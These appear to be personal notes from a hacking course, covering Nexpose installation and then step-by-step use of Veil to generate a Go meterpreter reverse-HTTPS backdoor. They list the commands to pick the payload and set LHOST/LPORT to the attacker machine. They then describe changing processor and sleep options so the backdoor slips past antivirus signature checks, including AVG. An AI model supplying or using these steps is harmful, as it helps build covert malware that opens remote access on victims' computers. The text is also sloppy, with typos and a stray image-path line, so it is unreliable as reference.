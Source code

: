 ### nexpose tool gui

`service postgresql stop`

`chmod +x <installer file name>`

`./<installer file name>`

`service postgresql stop`

watch the 10th video of 10th folder

## Client side attack

### veil 

`./Veil.py`

evasion generates undetectable backdoors. ordnance generates payloads which is used by evasion. helper or secondary tool of evasion. Payload is the part of the code of the backdoor that does the evil stuff.

`use 1`

run the above command for doing evasion.

`list`

we will now use go/meterpreter/rev_https.py, this is designed in go language and meterpreter is designed by metasploit, meterpreter runs ion the memory,This payload doesnot leave footprint. Third part is a method to establish connection. rev is reverse,this payload would create reverse httpconnection.The connection would come from the target computer. The backdoor would connect back to me from the target computer.

`use <the # of go/meterpreter/rev_https.py>`

LHOST is the ip where the payload/backdoor would try to connect.

`ifconfig`

`set LHOST <ip of the attacker machine>`

to change the port of the LHOST which is LPORT, run the following command

`set LPORT <the value of the port>`

`options`

it will bypass every antivirus program except avg. but we want to byass everything. antivirus has very large database of signatures. these signatures contain the files with harmful code.So they compare your backdoor with all the files in the db.If your file matches any of the files , then they will falg it as a virus/malware. If it does not match , then they will think it is a normal file.  we nedd to modify our backdoor file to make it more unique, so that it bypasses signature db and bypass antivirus program. Tp bypass avg, We are going to set some optional options, they will just make the backdoor look a bit different. set processor value, not a large value, if we set a large value then our processor might not work. sleep option let the backdoor sleep for a number of seconds before it exectes the evil code/payload.
